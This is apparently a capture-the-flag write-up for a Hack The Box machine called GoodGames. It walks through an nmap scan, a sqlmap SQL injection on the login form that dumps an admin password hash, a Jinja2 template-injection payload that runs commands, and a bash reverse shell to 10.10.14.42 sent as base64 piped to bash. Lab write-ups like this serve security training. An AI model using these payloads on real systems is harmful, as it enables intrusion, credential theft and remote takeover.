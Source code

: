 Nmap
```
└─$ nmap -sCV -p- 10.129.226.138                                                                                                                                                                                                    
Nmap scan report for 10.129.226.138 
Host is up (0.019s latency). 
Not shown: 65534 closed ports 
PORT   STATE SERVICE  VERSION 
80/tcp open  ssl/http Werkzeug/2.0.2 Python/3.9.2 
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2 
|_http-title: GoodGames | Community and Store 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 441.90 second
```
Time based blind sql injection in sign in page

![image](https://user-images.githubusercontent.com/87831546/142666137-ceea7690-cae8-4822-bc26-9b876198f1cf.png)

```log
$ sqlmap -u http://goodgames.htb/login --data="email=a%40a.a&password=a" -D main -T user -dump

[*] starting @ 13:00:46 /2021-11-20/

[13:00:47] [INFO] resuming back-end DBMS 'mysql' 
[13:00:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=a@a.a' AND (SELECT 6708 FROM (SELECT(SLEEP(5)))hpPZ) AND 'VYTZ'='VYTZ&password=a

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=a@a.a' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7162627671,0x69676b6673706955474a69524d724968636c576a65614b6c704b454745665a564242466c55717a57,0x7171787671)-- -&password=a
---
[13:00:47] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[13:00:47] [INFO] fetching columns for table 'user' in database 'main'
got a refresh intent (redirect like response common to login pages) to '/profile'. Do you want to apply it from now on? [Y/n] n
[13:00:50] [INFO] fetching entries for table 'user' in database 'main'
[13:00:50] [INFO] recognized possible password hashes in column '`password`'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: main
Table: user
[1 entry]
+------+---------------------+--------+----------------------------------+
| id   | email               | name   | password                         |
+------+---------------------+--------+----------------------------------+
| 1    | admin@goodgames.htb | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+------+---------------------+--------+----------------------------------+
```

Dump the users table and we find admin credentials
```
admin@goodgames.htb
2b22337f218b2d82dfc3b6f77e7cb8ec
```

Crack the hash and logging into admin account and clicking on the settings feature we find subdomain:
```
internal-administration
```
![image](https://user-images.githubusercontent.com/87831546/142666394-11ee96c4-64db-474f-84a0-b04c1596f3c0.png)

Add to /etc/hosts

![image](https://user-images.githubusercontent.com/87831546/142666449-b32e99e2-1e05-436b-80a5-0687144c6b03.png)

Login with 
```
admin@goodgames.htb
superadministrator
```
![image](https://user-images.githubusercontent.com/87831546/142666482-c888bc72-307e-45ac-a17e-272420a7c995.png)

Flask application and SSTI in the Full Name field
![image](https://user-images.githubusercontent.com/87831546/142666543-8ccb3f45-0888-4244-a549-2cfcd97ec2a0.png)

Command execution through SSTI:
```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
```
Get reverse shell by base64 encoding bash reverse shell then piping to base64 decode and then piped to bash
```
bash -i >& /dev/tcp/10.10.14.42/4242 0>&1
```
```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40Mi8xMjM0IDA+JjE= | base64 -d | bash').read() }}
```
```
HTB{7h4T_w45_Tr1cKy_1_D4r3_54y}
````

